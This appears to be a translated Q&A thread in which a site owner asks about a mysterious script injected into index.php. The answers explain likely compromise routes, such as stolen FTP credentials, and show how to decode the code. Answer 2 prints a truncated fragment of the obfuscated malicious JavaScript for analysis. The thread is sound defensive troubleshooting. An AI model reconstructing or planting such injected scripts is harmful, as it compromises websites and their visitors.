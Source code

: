 **NOTE** This script wasn't in my code *Before*!! What is this?! How was written in my `index.php` file?!

* * *

## 回答 #1

> 赞同：3
> 
> 时间：2012-11-17T09:13:17.547

您的网站遭到入侵。它的发生方式通常是以下场景之一：

1）您已通过 FTP 向使用 windows 的人授予对文档根目录的访问权限，并且他/她的计算机感染了病毒，该病毒从 FTP 客户端配置中恢复了 FTP 密码（记住密码功能）

2) 有人猜出了 FTP 的密码

3) 整个系统可能会受到损害

4）某些脚本/应用程序易受攻击（如@Konerak 所述）

要找出是 1)、2) 还是第三个原因，请查看 FTP 服务器日志 - 因为`proftpd`它`/var/log/proftpd/xferlog`在我的`Debian`系统上

如果是 FTP 问题之一，请立即更改 FTP 密码，在所有客户端上运行防病毒软件并分发新密码。要清理网站，通常只需搜索有问题的字符串并将其从文档根目录中的所有文件中删除即可。它通常是所有受感染文件中的相同字符串。还要注意 javascript 文件被感染 ( `*.js`)

如果网站上存在易受攻击的脚本，可以通过查找index.php的修改时间并在访问日志中找到对应的命中来识别。他们通常有 POST 方法或棘手的 GET 参数（在日志中可见）

* * *

## 回答 #2

> 赞同：2
> 
> 时间：2012-11-17T10:39:09.287

是的当然：

如果您的页面在您不知情和不符合规定的情况下被修改，那么您的网站肯定存在*漏洞*。

出于对**HOW**的考虑，有一点尝试发现**WHAT**：

为了确保并了解更多关于这种*编码病毒*的信息，我们可以从命令行运行`php`：

**1.**将错误代码复制到脚本，将它们包含在*php*标签之间：

```
cat << eof > badscript
<?php
echo ""; echo "<script>try{if(window.doc....
n=[\"9\",\"9\",\"45\",\"42\",\"1
?> 
```

**2.**使用以下命令进行第一次翻译`php`：

```
php <badscript >badscript2 
```
